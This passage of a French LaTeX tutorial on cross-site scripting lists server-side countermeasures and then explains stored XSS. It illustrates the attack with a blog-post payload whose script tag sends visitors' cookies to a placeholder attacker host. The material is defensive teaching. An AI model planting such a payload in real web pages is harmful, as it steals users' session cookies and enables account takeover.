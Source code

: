 \subsection{Contre-mesure}

Côté client, pour se prémunir des injections XSS, il est possible de configurer le navigateur de manière à empêcher l'exécution des langages de scripts mais alors de nombreux sites dynamiques ne pourront pas fonctionner correctement. C'est donc bien la vulnérabilité du serveur web qu'il faut corriger.


Du côté serveur, on peut appliquer les principes suivants :
\begin{itemize}[font=\color{magenta} \Large, label=]
	\item Encoder les données utilisateurs affichées en remplaçant les caractères spéciaux par leurs équivalents HTML. En PHP, utiliser les fonctions htmlentities() ou htmlspecialchars().​ 
	\item Installer un pare-feux applicatif capable de filtrer les flux HTTP afin de détecter les requêtes suspectes.

\end{itemize}



\newpage
\section{Stored XSS (persistante)  }


\subsection{Description}

Dans ce type d'attaque, les données fournies par l'utilisateur sont enregistrées sur le serveur et non simplement transmis dans une URL. Les sites vulnérables vis à vis des ces atttaques XSS présentent un faille appelée parfois “Faille du livre d’or“. Cette faille existe dès lors que le site web fait confiance aux utilisateurs. Une seule injection permet d'atteindre un grand nombre de victimes sans avoir à recourir à l'ingénierie sociale nécessaire lors des attaques reflected XSS. . Il est donc primordial que toutes les données reçues par l'application web soient encodées.


\paragraph{Exemple de stored XSS :} 
Un cracker écrit un post sur le blog d'un site vulnérable, le contenu ci-dessous :
\begin{verbatim}
blablabla. <script>location.href='http://bad.fr/?cookie='+document.cookie</script>
\end{verbatim}
L'attaquant récupèrera les valeurs des cookies de tous les futurs lecteurs de son poste.
La figure~\ref{stored_xss} illustre ce principe dans le cas général.

